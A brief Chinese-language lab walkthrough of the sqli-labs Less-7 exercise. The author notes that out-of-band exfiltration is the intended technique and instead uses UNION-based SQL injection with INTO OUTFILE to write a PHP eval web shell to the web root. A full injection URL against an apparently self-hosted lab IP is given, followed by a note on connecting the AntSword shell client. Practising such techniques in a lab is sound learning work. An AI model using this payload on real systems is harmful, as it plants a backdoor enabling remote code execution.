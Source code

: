 ****

### Less-7(很有意义的关)

- 本关的考察点是`数据外带`,但是我的靶场是服务器的`docker搭建`的,与我的物理机无法通信
- 改起来很麻烦,直接用`into outfile`写shell

- 需要确保数据库有写的权限,知道绝对路径

```sql
http://8.137.60.154:8082/Less-7/?id=-1')) union select 1,2,"<?php phpinfo();@eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+
```

<img src="./assets/image-20241007025536235.png" alt="image-20241007025536235" style="zoom: 25%;" />

- 连接`蚁剑`看看
